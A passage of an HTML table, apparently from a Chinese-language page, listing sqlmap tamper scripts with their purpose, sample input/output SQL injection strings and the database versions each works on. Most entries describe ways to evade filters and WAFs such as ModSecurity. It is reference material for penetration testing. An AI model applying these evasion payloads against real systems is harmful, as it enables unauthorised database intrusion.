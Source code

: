 编码</td><td width="50">*&nbsp;Input:&nbsp;SELECT&nbsp;FIELD&nbsp;FROM%20TABLE<br>*&nbsp;Output:&nbsp;%53%45%4c%45%43%54%20%46%49%45%4c%44%20%46%52%4f%4d%20%54%41%42%4c%45</td><td width="201"><br></td></tr><tr><td width="21"><strong>9</strong></td><td width="69">randomcase.py</td><td width="227">随机大小写</td><td width="50">*&nbsp;Input:&nbsp;INSERT<br>*&nbsp;Output:&nbsp;InsERt</td><td width="201"><br></td></tr><tr><td width="21"><strong>10</strong></td><td width="69">charunicodeencode.py</td><td width="227">字符串&nbsp;unicode&nbsp;编码</td><td width="50">*&nbsp;Input:&nbsp;SELECT&nbsp;FIELD%20FROM&nbsp;TABLE<br>*&nbsp;Output:&nbsp;%u0053%u0045%u004c%u0045%u0043%u0054%u0020%u0046%u0049%u0045%u004c%u0044%u0020%u0046%u0052%u004f%u004d%u0020%u0054%u0041%u0042%u004c%u0045′</td><td width="201"><br></td></tr><tr><td width="21"><strong>11</strong></td><td width="69">space2comment.py</td><td width="227">Replaces&nbsp;space&nbsp;character&nbsp;(‘&nbsp;‘)&nbsp;with&nbsp;comments&nbsp;‘/**/’</td><td width="50">*&nbsp;Input:&nbsp;SELECT&nbsp;id&nbsp;FROM&nbsp;users<br>*&nbsp;Output:&nbsp;SELECT//id//FROM/**/users</td><td width="201"><br></td></tr><tr><td rowspan="18" width="64">MYSQL</td><td width="18"><strong>1</strong></td><td width="147">equaltolike.py</td><td width="5">like&nbsp;代替等号</td><td width="218"><br>*&nbsp;Input:&nbsp;SELECT&nbsp;*&nbsp;FROM&nbsp;users&nbsp;WHERE&nbsp;id=1&nbsp;<br>2&nbsp;*&nbsp;Output:&nbsp;SELECT&nbsp;*&nbsp;FROM&nbsp;users&nbsp;WHERE&nbsp;id&nbsp;LIKE&nbsp;1&nbsp;</td><td width="101">&nbsp;Microsoft&nbsp;SQL&nbsp;Server&nbsp;2005<br>MySQL&nbsp;4,&nbsp;5.0&nbsp;and&nbsp;5.5</td></tr><tr><td width="21"><strong>2</strong></td><td width="69">greatest.py</td><td width="227">绕过过滤’&gt;’&nbsp;, 用 GREATEST 替换大于号。</td><td width="50">('1&nbsp;AND&nbsp;A&gt;&nbsp;B')<br>'1&nbsp;AND&nbsp;GREATEST(A,B+1)=A'</td><td width="201">*&nbsp;MySQL&nbsp;4,&nbsp;5.0&nbsp;and&nbsp;5.5<br>*&nbsp;Oracle&nbsp;10g<br>*&nbsp;PostgreSQL&nbsp;8.3,&nbsp;8.4,&nbsp;9.0</td></tr><tr><td width="21"><strong>3</strong></td><td width="69">apostrophenullencode.py</td><td width="227">绕过过滤双引号，替换字符和双引号。</td><td width="50">tamper("1&nbsp;AND'1'='1")<br>'1&nbsp;AND&nbsp;%00%271%00%27=%00%271'</td><td width="201">*&nbsp;MySQL&nbsp;4,&nbsp;5.0&nbsp;and&nbsp;5.5<br>*&nbsp;Oracle&nbsp;10g<br>*&nbsp;PostgreSQL&nbsp;8.3,&nbsp;8.4,&nbsp;9.0</td></tr><tr><td width="21"><strong>4</strong></td><td width="69">ifnull2ifisnull.py</td><td width="227">绕过对 IFNULL 过滤。<br>替换类似’IFNULL(A,&nbsp;B)’为’IF(ISNULL(A),&nbsp;B,&nbsp;A)’</td><td width="50">('IFNULL(1,&nbsp;2)')<br>'IF(ISNULL(1),2,1)'</td><td width="201">*&nbsp;MySQL&nbsp;5.0&nbsp;and&nbsp;5.5</td></tr><tr><td width="21"><strong>5</strong></td><td width="69">space2mssqlhash.py</td><td width="227">替换空格</td><td width="50">('1&nbsp;AND&nbsp;9227=9227')<br>'1%23%0AAND%23%0A9227=9227'</td><td width="201"><br></td></tr><tr><td width="21"><strong>6</strong></td><td width="69">modsecurityversioned.py</td><td width="227">过滤空格，包含完整的查询版本注释</td><td width="50">('1&nbsp;AND&nbsp;2&gt;1--')<br>'1&nbsp;/*!30874AND&nbsp;2&gt;1*/--'<br>&nbsp;</td><td width="201">*&nbsp;MySQL&nbsp;5.0</td></tr><tr><td width="21"><strong>7</strong></td><td width="69">space2mysqlblank.py</td><td width="227">空格替换其它空白符号 (mysql)</td><td width="50">Input:&nbsp;SELECT&nbsp;id&nbsp;FROM&nbsp;users<br>Output:&nbsp;SELECT%0Bid%0BFROM%A0users</td><td width="201">*&nbsp;MySQL&nbsp;5.1</td></tr><tr><td width="21"><strong>8</strong></td><td width="69">between.py</td><td width="227">用 between 替换大于号（&gt;）</td><td width="50">('1&nbsp;AND&nbsp;A&gt;&nbsp;B--')<br>'1&nbsp;AND&nbsp;A&nbsp;NOT&nbsp;BETWEEN&nbsp;0&nbsp;AND&nbsp;B--'</td><td width="201">*&nbsp;Microsoft&nbsp;SQL&nbsp;Server&nbsp;2005<br>*&nbsp;MySQL&nbsp;4,&nbsp;5.0&nbsp;and&nbsp;5.5<br>*&nbsp;Oracle&nbsp;10g<br>*&nbsp;PostgreSQL&nbsp;8.3,&nbsp;8.4,&nbsp;9.0</td></tr><tr><td width="21"><strong>9</strong></td><td width="69">modsecurityzeroversioned.py</td><td width="227">包含了完整的查询与零版本注释</td><td width="50">('1&nbsp;AND&nbsp;2&gt;1--')<br>'1&nbsp;/*!00000AND&nbsp;2&gt;1*/--'<br>&nbsp;</td><td width="201">*&nbsp;MySQL&nbsp;5.0</td></tr><tr><td width="21"><strong>10</strong></td><td width="69">space2mysqldash.py</td><td width="227">替换空格字符（”）（’&nbsp;–&nbsp;‘）后跟一个破折号注释一个新行（’&nbsp;n’）</td><td width="50">('1&nbsp;AND&nbsp;9227=9227')<br>'1--%0AAND--%0A9227=9227'</td><td width="201"><br></td></tr><tr><td width="21"><strong>11</strong></td><td width="69">bluecoat.py</td><td width="227">代替空格字符后与一个有效的随机空白字符的 SQL 语句。<br>然后替换 = 为 like</td><td width="50">('SELECT&nbsp;id&nbsp;FROM&nbsp;users&nbsp;where&nbsp;id&nbsp;=&nbsp;1')<br>'SELECT%09id&nbsp;FROM&nbsp;users&nbsp;where&nbsp;id&nbsp;LIKE&nbsp;1'</td><td width="201">*&nbsp;MySQL&nbsp;5.1,&nbsp;SGOS</td></tr><tr><td width="21"><strong>12</strong></td><td width="69">percentage.py</td><td width="227">asp 允许每个字符前面添加一个 % 号</td><td width="50">*&nbsp;Input:&nbsp;SELECT&nbsp;FIELD&nbsp;FROM&nbsp;TABLE<br>*&nbsp;Output:&nbsp;%S%E%L%E%C%T&nbsp;%F%I%E%L%D&nbsp;%F%R%O%M&nbsp;%T%A%B%L%E<br>&nbsp;</td><td width="201">*&nbsp;Microsoft&nbsp;SQL&nbsp;Server&nbsp;2000,&nbsp;2005<br>*&nbsp;MySQL&nbsp;5.1.56,&nbsp;5.5.11<br>*&nbsp;PostgreSQL&nbsp;9.0</td></tr><tr><td width="21"><strong>13</strong></td><td width="69">charencode.py</td><td width="227">url